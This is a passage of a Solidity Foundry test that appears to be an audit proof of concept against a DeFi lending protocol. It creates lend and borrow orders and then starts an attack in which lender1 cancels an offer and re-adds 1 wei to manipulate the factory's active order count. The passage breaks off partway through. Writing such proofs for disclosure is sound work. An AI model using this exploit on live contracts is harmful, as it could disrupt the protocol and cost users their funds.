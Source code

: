 ```solidity
            _maxDuration: 8640000,
            _minDuration: 86400,
            _acceptedCollaterals: acceptedCollaterals,
            _principle: wETH,
            _oracles_Collateral: oraclesCollateral,
            _ratio: ratioLenders,
            _oracleID_Principle: address(0x0),
            _startedLendingAmount: 5e18
        });

        vm.startPrank(lender3);
        wETHContract.approve(address(DLOFactoryContract), 5 ether);

        address lendOffer3 = DLOFactoryContract.createLendOrder({
            _perpetual: false,
            _oraclesActivated: oraclesActivatedLenders,
            _lonelyLender: false,
            _LTVs: ltvsLenders,
            _apr: 1000,
            _maxDuration: 8640000,
            _minDuration: 86400,
            _acceptedCollaterals: acceptedCollaterals,
            _principle: wETH,
            _oracles_Collateral: oraclesCollateral,
            _ratio: ratioLenders,
            _oracleID_Principle: address(0x0),
            _startedLendingAmount: 5e18
        });

        vm.stopPrank();

        // Create a borrow offer
        USDCContract.mint(borrower, 10e18);
        vm.startPrank(borrower);
        USDCContract.approve(address(DBOFactoryContract), 100e18);

        address borrowOrderAddress = DBOFactoryContract.createBorrowOrder({
            _oraclesActivated: oraclesActivated,
            _LTVs: ltvs,
            _maxInterestRate: 1400,
            _duration: 864000,
            _acceptedPrinciples: acceptedPrinciples,
            _collateral: USDC,
            _isNFT: false,
            _receiptID: 0,
            _oracleIDS_Principles: oraclesPrinciples,
            _ratio: ratio,
            _oracleID_Collateral: address(0x0),
            _collateralAmount: 10e18
        });

        vm.stopPrank();

        // Lender1 begins the attack
        // check DLOFactory::activeOrdersCount == 3
        assertEq(DLOFactoryContract.activeOrdersCount(), 3);

        // lender1 cancels the offer -> DLOFactory::activeOrdersCount == 2
        vm.startPrank(lender1);
        DLOImplementation(lendOffer1).cancelOffer();

        // addFunds (1 wei)
        wETHContract.approve(lendOffer1, 3);
```
